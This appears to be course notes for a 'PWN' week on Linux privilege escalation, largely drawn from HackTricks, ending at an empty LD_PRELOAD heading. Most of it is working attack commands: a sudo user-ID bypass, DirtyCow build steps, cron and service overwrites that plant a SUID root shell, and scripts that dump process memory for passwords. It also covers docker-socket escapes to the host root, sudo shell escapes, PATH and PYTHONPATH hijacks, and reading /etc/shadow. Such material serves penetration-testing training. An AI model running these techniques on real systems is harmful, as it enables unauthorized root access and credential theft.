


# Week10 PWN: Privilege Escalation

According to @Hacktricks: https://book.hacktricks.xyz/

## System Information

### OS info

Let's starting gaining some knowledge of the OS running

```
(cat /proc/version || uname -a ) 2>/dev/null
lsb_release -a 2>/dev/null
```

### Path

If you **have write permissions on any folder inside the `PATH`** variable you may be able to hijacking some libraries or binaries:

```
echo $PATH
```

### Env info

Interesting information, passwords or API keys in the environment variables?

```
(env || set) 2>/dev/null
```

### Kernel exploits

Check the kernel version and if there is some exploit that can be used to escalate privileges

```
cat /proc/version
uname -a
searchsploit "Linux Kernel"
```

You can find a good vulnerable kernel list and some already **compiled exploits** here: https://github.com/lucyoa/kernel-exploits and [exploitdb sploits](https://github.com/offensive-security/exploitdb-bin-sploits/tree/master/bin-sploits).
Other sites where you can find some **compiled exploits**: https://github.com/bwbwbwbw/linux-exploit-binaries, https://github.com/Kabot/Unix-Privilege-Escalation-Exploits-Pack

To extract all the vulnerable kernel versions from that web you can do:

```
curl https://raw.githubusercontent.com/lucyoa/kernel-exploits/master/README.md 2>/dev/null | grep "Kernels: " | cut -d ":" -f 2 | cut -d "<" -f 1 | tr -d "," | tr ' ' '\n' | grep -v "^\d\.\d$" | sort -u -r | tr '\n' ' '
```

Tools that could help searching for kernel exploits are:

[linux-exploit-suggester.sh](https://github.com/mzet-/linux-exploit-suggester)
[linux-exploit-suggester2.pl](https://github.com/jondonas/linux-exploit-suggester-2)
[linuxprivchecker.py](http://www.securitysift.com/download/linuxprivchecker.py) (execute IN victim,only checks exploits for kernel 2.x)

Always **search the kernel version in Google**, maybe your kernel version is wrote in some kernel exploit and then you will be sure that this exploit is valid.

### CVE-2016-5195 (DirtyCow)

Linux Privilege Escalation - Linux Kernel <= 3.19.0-73.8

```
# make dirtycow stable
echo 0 > /proc/sys/vm/dirty_writeback_centisecs
g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow 40847.cpp -lutil
https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs
https://github.com/evait-security/ClickNRoot/blob/master/1/exploit.c
```

### Sudo version

Based on the vulnerable sudo versions that appear in:

```
searchsploit sudo
```

You can check if the sudo version is vulnerable using this grep.

```
sudo -V | grep "Sudo ver" | grep "1\.[01234567]\.[0-9]\+\|1\.8\.1[0-9]\*\|1\.8\.2[01234567]"
```

### sudo <= v1.28

From @sickrov

```
sudo -u#-1 /bin/bash
```

### Dmesg signature verification failed

Check **smasher2 box of HTB** for an **example** of how this vuln could be exploited

```
dmesg 2>/dev/null | grep "signature"
```

### More system enumeration

```
date 2>/dev/null #Date
(df -h || lsblk) #System stats
lscpu #CPU info
lpstat -a 2>/dev/null #Printers info
```

### Enumerate possible defenses

#### AppArmor

```
if [ `which aa-status 2>/dev/null` ]; then
    aa-status
  elif [ `which apparmor_status 2>/dev/null` ]; then
    apparmor_status
  elif [ `ls -d /etc/apparmor* 2>/dev/null` ]; then
    ls -d /etc/apparmor*
  else
    echo "Not found AppArmor"
fi
```

#### Grsecurity

```
((uname -r | grep "\-grsec" >/dev/null 2>&1 || grep "grsecurity" /etc/sysctl.conf >/dev/null 2>&1) && echo "Yes" || echo "Not found grsecurity")
```

#### PaX

```
(which paxctl-ng paxctl >/dev/null 2>&1 && echo "Yes" || echo "Not found PaX")
```

#### Execshield

```
(grep "exec-shield" /etc/sysctl.conf || echo "Not found Execshield")
```

#### SElinux

```
 (sestatus 2>/dev/null || echo "Not found sestatus")
```

#### ASLR

```
cat /proc/sys/kernel/randomize_va_space 2>/dev/null
#If 0, not enabled
```

### Docker Breakout

If you are inside a docker container you can try to escape from it:

[https://book.hacktricks.xyz/linux-unix/privilege-escalation/docker-breakout](https://book.hacktricks.xyz/linux-unix/privilege-escalation/docker-breakout)

## Drives

Check **what is mounted and unmounted**, where and why. If anything is unmounted you could try to mount it and check for private info

```
ls /dev 2>/dev/null | grep -i "sd"
cat /etc/fstab 2>/dev/null | grep -v "^#" | grep -Pv "\W*\#" 2>/dev/null
#Check if credentials in fstab
grep -E "(user|username|login|pass|password|pw|credentials)[=:]" /etc/fstab /etc/mtab 2>/dev/null
```

## Installed Software

### Useful software

Enumerate useful binaries

```
which nmap aws nc ncat netcat nc.traditional wget curl ping gcc g++ make gdb base64 socat python python2 python3 python2.7 python2.6 python3.6 python3.7 perl php ruby xterm doas sudo fetch docker lxc ctr runc rkt kubectl 2>/dev/null
```

Also, check if **any compiler is installed**. This is useful if you need to use some kernel exploit as it's recommended to compile it in the machine where you are going to use it (or in one similar)

```
(dpkg --list 2>/dev/null | grep "compiler" | grep -v "decompiler\|lib" 2>/dev/null || yum list installed 'gcc*' 2>/dev/null | grep gcc 2>/dev/null; which gcc g++ 2>/dev/null || locate -r "/gcc[0-9\.-]\+$" 2>/dev/null | grep -v "/doc/")
```

### Vulnerable Software Installed

Check for the **version of the installed packages and services**. Maybe there is some old Nagios version (for example) that could be exploited for escalating privileges…
It is recommended to check manually the version of the more suspicious installed software.

```
dpkg -l #Debian
rpm -qa #Centos
```

If you have SSH access to the machine you could also use **openVAS** to check for outdated and vulnerable software installed inside the machine.

*Note that these commands will show a lot of information that will mostly be useless, therefore it's recommended some application like OpenVAS or similar that will check if any installed software version is vulnerable to known exploits*

## Processes

Take a look to **what processes** are being executed and check if any process has **more privileges that it should** (maybe a tomcat being executed by root?)

```
ps aux
ps -ef
top -n 1
```

Always check for possible [**electron/cef/chromium debuggers** running, you could abuse it to escalate privileges](https://github.com/carlospolop/hacktricks/blob/master/linux-unix/privilege-escalation/electron-cef-chromium-debugger-abuse.md). **Linpeas** detect those by checking the `--inspect` parameter inside the command line of the process.
Also **check your privileges over the processes binaries**, maybe you can overwrite someone.

### Process monitoring

You can use tools like [**pspy**](https://github.com/DominicBreuker/pspy) to monitor processes. This can be very useful to identify vulnerable processes being executed frequently or when a set of requirements are met.

### Process memory

Some services of a server save **credentials in clear text inside the memory**.
Normally you will need **root privileges** to read the memory of processes that belong to other users, therefore this is usually more useful when you are already root and want to discover more credentials.
However, remember that **as a regular user you can read the memory of the processes you own**.

#### GDB

If you have access to the memory of a FTP service (for example) you could get the Heap and search inside of it the credentials.

```
gdb -p <FTP_PROCESS_PID>
(gdb) info proc mappings
(gdb) q
(gdb) dump memory /tmp/mem_ftp <START_HEAD> <END_HEAD>
(gdb) q
strings /tmp/mem_ftp #User and password
```

#### GDB Script

```
#!/bin/bash
#./dump-memory.sh <PID>
grep rw-p /proc/$1/maps \
    | sed -n 's/^\([0-9a-f]*\)-\([0-9a-f]*\) .*$/\1 \2/p' \
    | while read start stop; do \
    gdb --batch --pid $1 -ex \
    "dump memory $1-$start-$stop.dump 0x$start 0x$stop"; \
done
```

#### /proc/$pid/maps & /proc/$pid/mem

For a given process ID, **maps shows how memory is mapped within that processes'** virtual address space; it also shows the **permissions of each mapped region**. The **mem** pseudo file **exposes the processes memory itself**. From the **maps** file we know which **memory regions are readable** and their offsets. We use this information to **seek into the mem file and dump all readable regions** to a file.

```
procdump()
(
    cat /proc/$1/maps | grep -Fv ".so" | grep " 0 " | awk '{print $1}' | ( IFS="-"
    while read a b; do
        dd if=/proc/$1/mem bs=$( getconf PAGESIZE ) iflag=skip_bytes,count_bytes \
           skip=$(( 0x$a )) count=$(( 0x$b - 0x$a )) of="$1_mem_$a.bin"
    done )
    cat $1*.bin > $1.dump
    rm $1*.bin
)
```

#### /dev/mem

`/dev/mem` provides access to the system's **physical** memory, not the virtual memory. The kernels virtual address space can be accessed using /dev/kmem.
Typically, `/dev/mem` is only readable by **root** and **kmem** group.

```
strings /dev/mem -n10 | grep -i PASS
```

#### Tools

To dump a process memory you could use:

- [**https://github.com/hajzer/bash-memory-dump**](https://github.com/hajzer/bash-memory-dump) (root) - *You can manually remove root requirements and dump process owned by you*
- Script A.5 from [**https://www.delaat.net/rp/2016-2017/p97/report.pdf**](https://www.delaat.net/rp/2016-2017/p97/report.pdf) (root is required)

### Credentials from Process Memory

#### Manual example

If you find that the authenticator process is running:

```
ps -ef | grep "authenticator"
root      2027  2025  0 11:46 ?        00:00:00 authenticator
```

You can dump the process (see before sections to find different ways to dump the memory of a process) and search for credentials inside the memory:

```
./dump-memory.sh 2027
strings *.dump | grep -i password
```

#### mimipenguin

The tool [**https://github.com/huntergregal/mimipenguin**](https://github.com/huntergregal/mimipenguin) will **steal clear text credentials from memory** and from some **well known files**. It requires root privileges to work properly.

| Feature                                           | Process Name         |
| ------------------------------------------------- | -------------------- |
| GDM password (Kali Desktop, Debian Desktop)       | gdm-password         |
| Gnome Keyring (Ubuntu Desktop, ArchLinux Desktop) | gnome-keyring-daemon |
| LightDM (Ubuntu Desktop)                          | lightdm              |
| VSFTPd (Active FTP Connections)                   | vsftpd               |
| Apache2 (Active HTTP Basic Auth Sessions)         | apache2              |
| OpenSSH (Active SSH Sessions - Sudo Usage)        | sshd:                |

## Scheduled/Cron jobs

Check if any scheduled job is vulnerable. Maybe you can take advantage of a script being executed by root (wildcard vuln? can modify files that root uses? use symlinks? create specific files in the directory that root uses?).

```
crontab -l
ls -al /etc/cron* /etc/at*
cat /etc/cron* /etc/at* /etc/anacrontab /var/spool/cron/crontabs/root 2>/dev/null | grep -v "^#"
```

### Cron path

For example, inside */etc/crontab* you can find the PATH: *PATH=**/home/user**:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin*

(*Note how the user "user" has writing privileges over /home/user*)

If inside this crontab the root user tries to execute some command or script without setting the path. For example: `root overwrite.sh`
Then, you can get a root shell by using:

```
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/overwrite.sh
#Wait cron job to be executed
/tmp/bash -p #The effective uid and gid to be set to the real uid and gid
```

### Cron using a script with a wildcard (Wildcard Injection)

If a script being executed by root has a “*****” inside a command, you could exploit this to make unexpected things (like privesc). Example:

```
rsync -a *.sh rsync://host.back/src/rbd #You can create a file called "-e sh myscript.sh" so the script will execute our script
```

**If the wildcard is preceded of a path like** ***/some/path/\**** **, it's not vulnerable (even** ***./\**** **is not).**

Read the following page for more wildcard exploitation tricks:

[https://book.hacktricks.xyz/linux-unix/privilege-escalation/wildcards-spare-tricks](https://book.hacktricks.xyz/linux-unix/privilege-escalation/wildcards-spare-tricks)

### Cron script overwriting and symlink

If you **can modify a cron script** executed by root, you can get a shell very easily:

```
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > </PATH/CRON/SCRIPT>
#Wait until it is executed
/tmp/bash -p
```

If the script executed by root uses a **directory where you have full access**, maybe it could be useful to delete that folder and **create a symlink folder to another one** serving a script controlled by you

```
ln -d -s </PATH/TO/POINT> </PATH/CREATE/FOLDER>
```

### Frequent cron jobs

You can monitor the processes to search for processes that are being executed every 1,2 or 5 minutes. Maybe you can take advantage of it and escalate privileges.

For example, to **monitor every 0.1s during 1 minute**, **sort by less executed commands** and deleting the commands that have beeing executed all the time, you can do:

```
for i in $(seq 1 610); do ps -e --format cmd >> /tmp/monprocs.tmp; sleep 0.1; done; sort /tmp/monprocs.tmp | uniq -c | grep -v "\[" | sed '/^.\{200\}./d' | sort | grep -E -v "\s*[6-9][0-9][0-9]|\s*[0-9][0-9][0-9][0-9]"; rm /tmp/monprocs.tmp;
```

**You can also use** [**pspy**](https://github.com/DominicBreuker/pspy/releases) (this will monitor and list every process that start).

### Invisible cron jobs

It's possible to create a cronjob **putting a carriage return after a comment** (without new line character), and the cron job will work. Example (note the carriege return char):

```
#This is a comment inside a cron config file\r* * * * * echo "Surprise!"
```

## Services

### Writable *.service* files

Check if you can write any `.service` file, if you can, you **could modify it** so it **executes** your **backdoor when** the service is **started**, **restarted** or **stopped** (maybe you will need to wait until the machine is rebooted).
For example create your backdoor inside the .service file with **`ExecStart=/tmp/script.sh`**

### Writable service binaries

Keep in mid that if you have **write permissions over binaries being executed by services**, you can change them for backdoors so when the services get re-executed the backdoors will be executed.

### systemd PATH - Relative Paths

You can see the PATH used by **systemd** with:

```
systemctl show-environment
```

If you find that you can **write** in any of the folders of the path you may be able to **escalate privileges**. You need to search for **relative paths being used on service configurations** files like:

```
ExecStart=faraday-server
ExecStart=/bin/sh -ec 'ifup --allow=hotplug %I; ifquery --state %I'
ExecStop=/bin/sh "uptux-vuln-bin3 -stuff -hello"
```

Then, create a **executable** with the **same name as the relative path binary** inside the systemd PATH folder you can write, and when the service is asked to execute the vulnerable action (**Start**, **Stop**, **Reload**), your **backdoor will be executed** (unprivileged users usually cannot start/stop services but check if you can using `sudo -l`).

**Learn more about services with `man systemd.service`.**

## **Timers**

**Timers** are systemd unit files whose name ends in . **timer** that control . service files or events. **Timers** can be used as an alternative to cron. **Timers** have built-in support for calendar time events, monotonic time events, and can be run asynchronously.

You can enumerate all the timers doing:

```
systemctl list-timers --all
```

### Writable timers

If you can modify a timer you can make it execute some existent systemd.unit (like a `.service` or a `.target`)

```
Unit=backdoor.service
```

In the documentation you can read what the Unit is:

> The unit to activate when this timer elapses. The argument is a unit name, whose suffix is not ".timer". If not specified, this value defaults to a service that has the same name as the timer unit, except for the suffix. (See above.) It is recommended that the unit name that is activated and the unit name of the timer unit are named identically, except for the suffix.

Therefore, in order to abuse this permissions you would need to:

- Find some systemd unit (like a `.service`) that is **executing a writable binary**
- Find some systemd unit that is **executing a relative path** and you have **writable privileges** over the **systemd PATH** (to impersonate that executable)

**Learn more about timers with `man systemd.timer`.**

### **Enabling Timer**

In order to enable a timer you need root privileges and to execute:

```
sudo systemctl enable backu2.timer
Created symlink /etc/systemd/system/multi-user.target.wants/backu2.timer → /lib/systemd/system/backu2.timer.
```

Note the **timer** is **activated** by creating a symlink to it on `/etc/systemd/system/<WantedBy_section>.wants/<name>.timer`

## Sockets

In brief, a Unix Socket (technically, the correct name is Unix domain socket, **UDS**) allows **communication between two different processes** on either the same machine or different machines in client-server application frameworks. To be more precise, it’s a way of communicating among computers using a standard Unix descriptors file. (From [here](https://www.linux.com/news/what-socket/)).

Sockets can be configured using `.socket` files.

**Learn more about sockets with `man systemd.socket`.** Inside this file some several interesting parameters can be configured:

- `ListenStream`, `ListenDatagram`, `ListenSequentialPacket`, `ListenFIFO`, `ListenSpecial`, `ListenNetlink`, `ListenMessageQueue`, `ListenUSBFunction`: This options are different but as summary as used to **indicate where is going to listen** the socket (the path of the AF_UNIX socket file, the IPv4/6 and/or port number to listen...).
- `Accept`: Takes a boolean argument. If **true**, a **service instance is spawned for each incoming connection** and only the connection socket is passed to it. If **false**, all listening sockets themselves are **passed to the started service unit**, and only one service unit is spawned for all connections. This value is ignored for datagram sockets and FIFOs where a single service unit unconditionally handles all incoming traffic. **Defaults to false**. For performance reasons, it is recommended to write new daemons only in a way that is suitable for `Accept=no`.
- `ExecStartPre`, `ExecStartPost`: Takes one or more command lines, which are **executed before** or **after** the listening **sockets**/FIFOs are **created** and bound, respectively. The first token of the command line must be an absolute filename, then followed by arguments for the process.
- `ExecStopPre`, `ExecStopPost`: Additional **commands** that are **executed before** or **after** the listening **sockets**/FIFOs are **closed** and removed, respectively.
- `Service`: Specifies the **service** unit name **to activate** on **incoming traffic**. This setting is only allowed for sockets with Accept=no. It defaults to the service that bears the same name as the socket (with the suffix replaced). In most cases, it should not be necessary to use this option.

### Writable .socket files

If you find a **writable** `.socket` file you can **add** at the beginning of the `[Socket]` section something like: `ExecStartPre=/home/kali/sys/backdoor` and the backdoor will be executed before the socket is created. Therefore, you will **probably need to wait until the machine is rebooted.**
*Note that the system must be using that socket file configuration or the backdoor won't be executed*

### Writable sockets

If you **identify any writable socket** (*now where are talking about Unix Sockets, not about the config `.socket` files*), then, **you can communicate** with that socket and maybe exploit a vulnerability.

### Enumerate Unix Sockets

```
netstat -a -p --unix
```

### Raw connection

```
#apt-get install netcat-openbsd
nc -U /tmp/socket  #Connect to UNIX-domain stream socket
nc -uU /tmp/socket #Connect to UNIX-domain datagram socket

#apt-get install socat
socat - UNIX-CLIENT:/dev/socket #connect to UNIX-domain socket, irrespective of its type
```

**Exploitation example:**

[https://book.hacktricks.xyz/linux-unix/privilege-escalation/socket-command-injection](https://book.hacktricks.xyz/linux-unix/privilege-escalation/socket-command-injection)

### HTTP sockets

Note that there may be some **sockets listening for HTTP** requests (*I'm not talking about .socket files but about the files acting as unix sockets*). You can check this with:

```
curl --max-time 2 --unix-socket /pat/to/socket/files http:/index
```

If the socket **respond with a HTTP** request, then you can **communicate** with it and maybe **exploit some vulnerability**.

### Writable Docker Socket

The **docker socke**t is typically located at `/var/run/docker.sock` and is only writable by `root` user and `docker` group.
If for some reason **you have write permissions** over that socket you can escalate privileges.
The following commands can be used to escalate privileges:

```
docker -H unix:///var/run/docker.sock run -v /:/host -it ubuntu chroot /host /bin/bash
docker -H unix:///var/run/docker.sock run -it --privileged --pid=host debian nsenter -t 1 -m -u -n -i sh
```

#### Use docker web API from socket without docker package

If you have access to **docker socket** but you can't use the docker binary (maybe it isn't even installed), you can use directly the web API with `curl`.

The following commands are a example to **create a docker container that mount the root** of the host system and use `socat` to execute commands into the new docker.

```
# List docker images
curl -XGET --unix-socket /var/run/docker.sock http://localhost/images/json
##[{"Containers":-1,"Created":1588544489,"Id":"sha256:<ImageID>",...}]
# Send JSON to docker API to create the container
curl -XPOST -H "Content-Type: application/json" --unix-socket /var/run/docker.sock -d '{"Image":"<ImageID>","Cmd":["/bin/sh"],"DetachKeys":"Ctrl-p,Ctrl-q","OpenStdin":true,"Mounts":[{"Type":"bind","Source":"/","Target":"/host_root"}]}' http://localhost/containers/create
##{"Id":"<NewContainerID>","Warnings":[]}
curl -XPOST --unix-socket /var/run/docker.sock http://localhost/containers/<NewContainerID>/start
```

The last step is to use `socat` to initiate a connection to the container, sending an attach request

```
socat - UNIX-CONNECT:/var/run/docker.sock
POST /containers/<NewContainerID>/attach?stream=1&stdin=1&stdout=1&stderr=1 HTTP/1.1
Host:
Connection: Upgrade
Upgrade: tcp

#HTTP/1.1 101 UPGRADED
#Content-Type: application/vnd.docker.raw-stream
#Connection: Upgrade
#Upgrade: tcp
```

Now, you can execute commands on the container from this `socat` connection.

#### Others

Note that if you have write permissions over the docker socket because you are **inside the group `docker`** you have [**more ways to escalate privileges**](https://github.com/carlospolop/hacktricks/blob/master/linux-unix/privilege-escalation/interesting-groups-linux-pe/#docker-group). If the [**docker API is listening in a port** you can also be able to compromise it](https://github.com/carlospolop/hacktricks/blob/master/pentesting/2375-pentesting-docker.md#compromising).

### Containerd (ctr) privilege escalation

If you find that you can use the **`ctr`** command read the following page as **you may be able to abuse it to escalate privileges**:

[https://book.hacktricks.xyz/linux-unix/privilege-escalation/containerd-ctr-privilege-escalation](https://book.hacktricks.xyz/linux-unix/privilege-escalation/containerd-ctr-privilege-escalation)

### **RunC** privilege escalation

If you find that you can use the **`runc`** command read the following page as **you may be able to abuse it to escalate privileges**:

[https://book.hacktricks.xyz/linux-unix/privilege-escalation/runc-privilege-escalation](https://book.hacktricks.xyz/linux-unix/privilege-escalation/runc-privilege-escalation)

## **D-Bus**

D-BUS is an **inter-process communication (IPC) system**, providing a simple yet powerful mechanism **allowing applications to talk to one another**, communicate information and request services. D-BUS was designed from scratch to fulfil the needs of a modern Linux system.

D-BUS, as a full-featured IPC and object system, has several intended uses. First, D-BUS can perform basic application IPC, allowing one process to shuttle data to another—think **UNIX domain sockets on steroids**. Second, D-BUS can facilitate sending events, or signals, through the system, allowing different components in the system to communicate and ultimately to integrate better. For example, a Bluetooth daemon can send an incoming call signal that your music player can intercept, muting the volume until the call ends. Finally, D-BUS implements a remote object system, letting one application request services and invoke methods from a different object—think CORBA without the complications. (From [here](https://www.linuxjournal.com/article/7744)).

D-Bus uses an **allow/deny model**, where each message (method call, signal emission, etc.) can be **allowed or denied** according to the sum of all policy rules which match it. Each or rule in the policy should have the `own`, `send_destination` or `receive_sender` attribute set.

Part of the policy of `/etc/dbus-1/system.d/wpa_supplicant.conf`:

```
<policy user="root">
    <allow own="fi.w1.wpa_supplicant1"/>
    <allow send_destination="fi.w1.wpa_supplicant1"/>
    <allow send_interface="fi.w1.wpa_supplicant1"/>
    <allow receive_sender="fi.w1.wpa_supplicant1" receive_type="signal"/>
</policy>
```

Therefore, if a policy is allowing your user in anyway to **interact with the bus**, you could be able to exploit it to escalate privileges (maybe just listing for some passwords?).

Note that a **policy** that **doesn't specify** any user or group affects everyone (`<policy>`).
Policies to the context "default" affects everyone not affected by other policies (`<policy context="default"`).

**Learn how to enumerate and exploit a D-Bus communication here:**

[https://book.hacktricks.xyz/linux-unix/privilege-escalation/d-bus-enumeration-and-command-injection-privilege-escalation](https://book.hacktricks.xyz/linux-unix/privilege-escalation/d-bus-enumeration-and-command-injection-privilege-escalation)

## **Network**

It's always interesting to enumerate the network and figure out the position of the machine.

### Generic enumeration

```
#Hostname, hosts and DNS
cat /etc/hostname /etc/hosts /etc/resolv.conf
dnsdomainname

#Content of /etc/inetd.conf & /etc/xinetd.conf
cat /etc/inetd.conf /etc/xinetd.conf

#Interfaces
cat /etc/networks
(ifconfig || ip a)

#Neighbours
(arp -e || arp -a)
(route || ip n)

#Iptables rules
(timeout 1 iptables -L 2>/dev/null; cat /etc/iptables/* | grep -v "^#" | grep -Pv "\W*\#" 2>/dev/null)

#Files used by network services
lsof -i
```

### Open ports

Always check network services running on the machine that you wasn't able to interact with before accessing to it:

```
(netstat -punta || ss --ntpu)
(netstat -punta || ss --ntpu) | grep "127.0"
```

### Sniffing

Check if you can sniff traffic. If you can, you could be able to grab some credentials.

```
timeout 1 tcpdump
```

## Users

### Generic Enumeration

Check **who** you are, which **privileges** do you have, which **users** are in the systems, which ones can **login** and which ones have **root privileges:**

```
#Info about me
id || (whoami && groups) 2>/dev/null
#List all users
cat /etc/passwd | cut -d: -f1
#List users with console
cat /etc/passwd | grep "sh$"
#List superusers
awk -F: '($3 == "0") {print}' /etc/passwd
#Currently logged users
w
#Login history
last | tail
#Last log of each user
lastlog

#List all users and their groups
for i in $(cut -d":" -f1 /etc/passwd 2>/dev/null);do id $i;done 2>/dev/null | sort
#Current user PGP keys
gpg --list-keys 2>/dev/null
```

### Big UID

Some Linux versions were affected by a bug that allow users with **UID > INT_MAX** to escalate privileges. More info: [here](https://gitlab.freedesktop.org/polkit/polkit/issues/74), [here](https://github.com/mirchr/security-research/blob/master/vulnerabilities/CVE-2018-19788.sh) and [here](https://twitter.com/paragonsec/status/1071152249529884674).
**Exploit it** using: **`systemd-run -t /bin/bash`**

### Groups

Check if you are a **member of some group** that could grant you root privileges:

[https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe](https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe)

### Clipboard

Check if anything interesting is located inside the clipboard (if possible)

```
if [ `which xclip 2>/dev/null` ]; then
    echo "Clipboard: "`xclip -o -selection clipboard 2>/dev/null`
    echo "Highlighted text: "`xclip -o 2>/dev/null`
  elif [ `which xsel 2>/dev/null` ]; then
    echo "Clipboard: "`xsel -ob 2>/dev/null`
    echo "Highlighted text: "`xsel -o 2>/dev/null`
  else echo "Not found xsel and xclip"
  fi
```

### Password Policy

```
grep "^PASS_MAX_DAYS\|^PASS_MIN_DAYS\|^PASS_WARN_AGE\|^ENCRYPT_METHOD" /etc/login.defs
```

### Known passwords

If you **know any password** of the environment **try to login as each user** using the password.

### Su Brute

If don't mind about doing a lot of noise and `su` and `timeout` binaries are present on the computer you can try to brute-force user using [su-bruteforce](https://github.com/carlospolop/su-bruteforce).
[**Linpeas**](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite) with `-a` parameter also try to brute-force users.

## Writable PATH abuses

### $PATH

If you find that you can **write inside some folder of the $PATH** you may be able to escalate privileges by **creating a backdoor inside the writable folder** with the name of some command that is going to be executed by a different user (root ideally) and that is **not loaded from a folder that is located previous** to your writable folder in $PATH.

## SUDO and SUID

You could be allowed to execute some command using sudo or they could have the suid bit. Check it using:

```
sudo -l #Check commands you can execute with sudo
find / -perm -4000 2>/dev/null #Find all SUID binaries
```

Some **unexpected commands allows you to read and/or write files or even execute command.** For example:

```
sudo awk 'BEGIN {system("/bin/sh")}'
sudo find /etc -exec sh -i \;
sudo tcpdump -n -i lo -G1 -w /dev/null -z ./runme.sh
sudo tar c a.tar -I ./runme.sh a
ftp>!/bin/sh
less>! <shell_comand>
```

### NOPASSWD

Sudo configuration might allow a user to execute some command with another user privileges without knowing the password.

```
$ sudo -l
User demo may run the following commands on crashlab:
    (root) NOPASSWD: /usr/bin/vim
```

In this example the user `demo` can run `vim` as `root`, it is now trivial to get a shell by adding an ssh key into the root directory or by calling `sh`.

```
sudo vim -c '!sh'
```

### SETENV

This directive allows the user to **set an environment variable** while executing something:

```
$ sudo -l
User waldo may run the following commands on admirer:
    (ALL) SETENV: /opt/scripts/admin_tasks.sh
```

This example, **based on HTB machine Admirer**, was **vulnerable** to **PYTHONPATH hijacking** in order to load an arbitrary python library while executing the script as root:

```
sudo PYTHONPATH=/dev/shm/ /opt/scripts/admin_tasks.sh
```

### Sudo execution bypassing paths

**Jump** to read other files or use **symlinks**. For example in sudeores file: *hacker10 ALL= (root) /bin/less /var/log/**

```
sudo less /var/logs/anything
less>:e /etc/shadow #Jump to read other files using privileged less
ln /etc/shadow /var/log/new
sudo less /var/log/new #Use symlinks to read any file
```

If a **wilcard** is used (*), it is even easier:

```
sudo less /var/log/../../etc/shadow #Read shadow
sudo less /var/log/something /etc/shadow #Red 2 files
```

**Countermeasures**: [https://blog.compass-security.com/2012/10/dangerous-sudoers-entries-part-5-recapitulation/](https://blog.compass-security.com/2012/10/dangerous-sudoers-entries-part-5-recapitulation/)

### Sudo command/SUID binary without command path

If the **sudo permission** is given to a single command **without specifying the path**: *hacker10 ALL= (root) less* you can exploit it by changing the PATH variable

```
export PATH=/tmp:$PATH
#Put your backdoor in /tmp and name it "less"
sudo less
```

This technique can also be used if a **suid** binary **executes another command without specifying the path to it (always check with** ***strings*** **the content of a weird SUID binary)**.

[Payload examples to execute.](https://github.com/carlospolop/hacktricks/blob/master/linux-unix/privilege-escalation/payloads-to-execute.md)

### SUID binary with command path

If the **suid** binary **executes another command specifying the path**, then, you can try to **export a function** named as the command that the suid file is calling.

For example, if a suid binary calls ***/usr/sbin/service apache2 start*** you have to try to create the function and export it:

```
function /usr/sbin/service() { cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p; }
export -f /usr/sbin/service
```

Then, when you call the suid binary, this function will be executed

### LD_PRELOAD

